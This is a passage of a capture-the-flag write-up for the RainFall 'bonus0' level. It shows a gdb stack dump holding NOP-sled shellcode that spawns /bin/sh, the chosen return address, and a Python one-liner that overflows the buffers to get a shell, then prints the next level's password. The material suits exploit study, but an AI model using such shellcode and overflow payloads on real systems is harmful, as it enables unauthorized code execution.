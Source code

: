 ```gdb
0012| 0xbffff6e4 --> 0xbffff774 --> 0xbffff892 ("/home/user/bonus0/bonus0")
0016| 0xbffff6e8 --> 0xbffff77c --> 0xbffff8ab ("SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\026\061\300[\210C\a\211[\b\211C\f\260\v\215K\b\215S\f̀\350\345\377\377\377/bin/sh")
0020| 0xbffff6ec --> 0xb7fdc858 --> 0xb7e2c000 --> 0x464c457f
0024| 0xbffff6f0 --> 0x0
0028| 0xbffff6f4 --> 0xbffff71c --> 0x0
[------------------------------------------------------------------------------]
```

Our variable is stored at the address `0xbffff8ab`, we add something like 30 to jump over the beginning, especially the "SHELLCODE=" characters and land into the NOP sled. Let's use the address `0xbffff8c9`.

We can now prepare our final string. Note that we will send the whole string to the standard input of the executable, but we need `read` to get it in two parts to fill the two middle buffers. So we will first send 4096 characters, including a terminating '\n', then 9 characters for the address offset + the address (4 bytes) + 7 characters to reach 20.

```console
bonus0@RainFall:~$ python -c 'print "A"*4095 + "\n" + "AAAAAAAAA" + "\xc9\xf8\xff\xbf" + "AAAAAAA"' > /tmp/bonus0
bonus0@RainFall:~$ cat /tmp/bonus0 - | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA�� AAAAAAAAA����AAAAAAA��
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```